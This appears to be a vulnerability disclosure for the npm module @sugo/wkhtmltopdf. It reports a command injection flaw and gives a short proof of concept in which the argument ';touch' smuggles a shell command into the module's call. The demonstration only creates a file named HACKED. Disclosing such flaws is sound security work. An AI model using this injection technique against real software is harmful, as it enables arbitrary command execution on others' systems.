 # Description

The `@sugo/wkhtmltopdf` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var wkp = require("@sugo/wkhtmltopdf")
wkp.wkhtmltopdf("test", [';touch', 'HACKED']);

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i @sugo/wkhtmltopdf # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
